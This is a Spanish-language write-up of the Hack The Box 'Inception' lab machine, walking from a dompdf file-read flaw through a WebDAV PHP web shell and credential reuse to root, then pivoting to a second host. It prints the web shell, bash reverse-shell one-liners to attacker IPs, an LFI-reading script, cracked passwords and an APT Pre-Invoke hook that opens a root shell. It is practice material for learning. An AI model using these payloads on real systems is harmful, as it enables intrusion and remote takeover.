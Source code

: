 10.10.10.67
-----------



Los puertos abiertos son el 80(http) y el 3128(squid proxy).

El proxy se configura de tal manera, retocando el /etc/proxychains.conf con la linea: ```http 10.10.10.67 3128```
Y comentando la *socks4* de antes  para que no entre en conflicto.

Con el squid proxy se pueden hacer ciertas cosas como enumerar puertos:

```console
└─$ wfuzz -c --hc=404,503 -t 200 -z range,1-65535 -p 10.10.10.67:3128:HTTP http://127.0.0.1:FUZZ

000000022:   200        2 L      4 W        60 Ch       "22"                                                 
000000080:   200        1051 L   169 W      2877 Ch     "80"                                                 
000003128:   400        151 L    416 W      3521 Ch     "3128"
```

Al puerto 22 solo se puede acceder por el proxy.

En cuanto al puerto 80:
```console
└─$ whatweb http://10.10.10.67
http://10.10.10.67 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.67], Script, Title[Inception]
```
Inspeccionamos la web y no tiene nada (un formulario para enviar un mail pero que no funciona).
En cuanto a los comentarios en el código fuente:
```
<!--[if lte IE 8]><script src="assets/js/ie/html5shiv.js"></script><![endif]-->
<!--[if lte IE 8]><script src="assets/js/ie/respond.min.js"></script><![endif]-->
<!-- Todo: test dompdf on php 7.x -->
```
No se que es dompdf, pero tiene varios exploits ```searchsploit dompdf```
Existe la ruta /dompdf con un monton de phps.

El primer exploit habla de que hay un LFI en la ruta:
```http://10.10.10.67/dompdf/dompdf.php?input_file=/etc/passwd``` Pero no se lee, aun asi existe. 
Para leerlo se puede usar el wrapper php ```?input_file=php://filter/convert.base64-encode/resource=/etc/passwd```

La cosa esque se visualiza en pdf el base64 (pero hay que filtrarlo porque salen mas cosas propias del 
formato pdf), me hice un script para leerlo de manera sencilla.
```bash
#!/bin/bash

archivo=$1
curl -s -X GET "http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/convert.base64-encode/resource=$archivo" | grep -oP '\[\(.*?\)\]' | tr -d "\[\(\)\]" | base64 -d
```
- /etc/passwd -> Existen los usuarios root y cobb (pero este no tiene ninguna id_rsa)
- /proc/net/fib_trie -> la ip de la red interna es: 192.168.0.10
- No podemos hacer un log_poisoning con el /var/log/auth.log (no hay permiso de lectura)
- Como estamos ante un squid proxy podemos leer el archivo de configuracion /etc/squid/squid.conf
- Como la web es apache tirar de /etc/apache/sites-enabled/000-default.conf (o apache2 en este caso)

Hay como unas 3000 lineas del squid.conf, la mayoria comentadas, para quitarlas:
```cat ./squid.conf | grep -v "^#" | grep -ve '^$'```
Pero no hay nada interesante. 
En cuanto al archivo de apache nos da una ruta "AuthUserFile" /var/www/html/webdav_test_inception/webdav.passwd

En ella hay una contraseña -> webdav_tester:$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0

```console
└─$ jhon password -w=/usr/share/wordlists/rockyou.txt
babygurl69       (webdav_tester)
```
En el apache.conf dice que esa contraseña vale para la ruta /webdav_test_inception

```console
└─$ davtest -url http://10.10.10.67/webdav_test_inception -auth webdav_tester:babygurl69
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_iKJ7xa_v9GaGTs/davtest_iKJ7xa_v9GaGTs.php
Executes: http://10.10.10.67/webdav_test_inception/DavTestDir_iKJ7xa_v9GaGTs/davtest_iKJ7xa_v9GaGTs.php
```
Podemos subir/ejecutar archivos php.
Asi que subirmeos el clasico:
```php
<?php  echo shell_exec($_REQUEST['cmd']); ?>
```
```console
└─$ curl -s -X PUT http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/shell.php -d @shell.php
<p>Resource /webdav_test_inception/shell.php has been created.</p>
└─$ curl -s -X GET http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/shell.php?cmd=whoami
<pre>www-data</pre>
```
SI le pasamos el comando de reverse shell (con los & urlencodeados a %26)
```bash -c 'bash -i >%26 /dev/tcp/10.10.14.5/443 0>%261'```

La manera es hacer una fake shell para operar con un script [tty over http](https://github.com/CUCUxii/ttyhttp.py/blob/main/ttyhttp.py)

```console
└─$ rlwrap ./inception.py
~$: script /dev/null -c bash
Script started, file is /dev/null
www-data@Inception:/var/www/html/webdav_test_inception$ 
~$: tty
~$: cd ../
www-data@Inception:/var/www/html/wordpress_4.8.3$
~$: cat wp-config.php
# Encontramos las creds root:VwPddNh7xMZyDQoByQL4
~$: su cobb
Password: 
~$: VwPddNh7xMZyDQoByQL4
cobb@Inception:/var/www/html/wordpress_4.8.3$ sudo -l
[sudo] password for cobb:
~$: VwPddNh7xMZyDQoByQL4
User cobb may run the following commands on Inception:
    (ALL : ALL) ALL
~$: sudo su
root@Inception:/var/www/html/webdav_test_inception# 
~$: whoami
whoami
root
~$: cat root.txt
You're waiting for a train. A train that will take you far away. Wake up to find root.txt.
```
Como estamos como root pero no hay flag, puede que estemos en un contenedor
```console
~$: hostname -I
192.168.0.10 
```

Si hay que hacer pivoting, hay que detectar maquinas y demas, con esta shell limitada, el subir scripts se 
hace impracticable. Asi que como tenemos la contraseña del Cobb este se usa para ssh.
```console
└─$ sudo proxychains sshpass -p 'VwPddNh7xMZyDQoByQL4' ssh cobb@127.0.0.1
```

MIgramos a root de la misma manera que antes y para el pivoting tenemos que descubrir tanto la otra maquina
como sus puertos

```bash
#!/bin/bash

for host in $(seq 1 254); do
    timeout 1 bash -c "ping -c 1 192.168.0.$host > /dev/null 2>&1" && echo "Host: 192.168.0.$host" &
done; wait
```
```console
root@Inception:/tmp# ./host.sh
Host: 192.168.0.10
Host: 192.168.0.1   #  La otra maquina :)
```
El de los puertos quedo asi (el mismo que uso para los escaneos iniciales en todas las maquinas):
```bash
#!/bin/bash

for port in $(seq 1 10000); do
    timeout 1 bash -c "(echo "" > /dev/tcp/192.168.0.1/$port) 2>/dev/null" && echo "Port $port" &
done; wait
```
Nos reporta que los puertos 21 (ftp), 22 (ssh), y 53 (dns) están abiertos.

```console
root@Inception:/tmp# ftp 192.168.0.1 # Usuario anonymous contraseña anonymous
ftp> get crontab
```
```console
root@Inception:~# cat crontab
*/5 *	* * *	root	apt update 2>&1 >/var/log/apt/custom.log
30 23	* * *	root	apt upgrade -y 2>&1 >/dev/null
```
Esto significa que se está actualizando el sistema cada 5 minutos. Si pones un archivo especial en:
*/etc/apt/apt.conf.d/* se ejecutará antes de actualizar el sistema.

La manera que hay de explotar esto es escribiendo un archivo: *command*:

```APT::Update::Pre-Invoke {" whoami ";};``` En este caso:
```APT::Update::Pre-Invoke {"bash -c 'bash -i >& /dev/tcp/192.168.0.10/443 0>&1'";};```

```console
root@Inception:~# tftp 192.168.0.1    # Ftp especial.
tftp> put command /etc/apt/apt.conf.d/command   # Dicho archivo se tiene que subir a esta ruta
```
```console
root@Inception:/home/cobb# sudo nc -nlvp 443
root@Inception:/tmp# whoami # root
root@Inception:/tmp# hostname -I
hostname -I
10.10.10.67 192.168.0.1 dead:beef::250:56ff:feb9:5325
```
Con esto ya estaríamos en la segunda máquina

Disclaimer: aprendi a resolver la maquina gracias al maestro @s4vitar.
